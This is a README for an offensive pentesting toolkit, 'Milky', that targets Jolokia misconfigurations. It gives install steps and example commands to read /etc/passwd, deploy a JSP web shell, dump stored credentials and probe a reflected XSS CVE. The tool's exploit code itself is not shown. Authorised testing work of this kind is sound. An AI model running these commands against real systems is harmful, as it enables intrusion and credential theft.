 # Milky

<img align="center" src="./img/milky.png">

Milky is a lightweight, one‑file toolkit that helps pentesters quickly verify
and exploit common Jolokia misconfigurations / weaknesses (File‑read,
AccessLogValve RCE, UserDatabase dump, Spring `EnvironmentManager` abuse,
reflected XSS CVE‑2018‑1000129).


## Installation

```bash
git clone https://github.com/UncleJ4ck/Milky
cd milky
python3 -m venv venv && . venv/bin/activate
pip install -r requirements.txt
```

## Quick examples

### Verification of Jolokia misconfiguration
```
python3 milky.py http://target:8080/jolokia scan
```
### Read /etc/passwd through DiagnosticCommand
```
python3 milky.py http://target:8080/jolokia read -f /etc/passwd
```

### Drop & verify a JSP shell via AccessLogValve
```
python3 milky.py http://target:8080/jolokia deploy
```

### Dump credentials from the UserDatabase MBean
```
python3 milky.py http://target:8080/jolokia creds
```
### Reflected‑XSS probe (CVE‑2018‑1000129)
```
python3 milky.py http://target:8080/jolokia xss
```

> Add --debug for full HTTP traces and --user/--password for Basic‑Auth.


## TO-DO
- [ ] Adding more exploits
- [ ] Adding more verifications
- [ ] Fixing bugs

## Credits

Thanks to laluka for his work on [jolokia-exploit](https://github.com/laluka/jolokia-exploitation-toolkit).
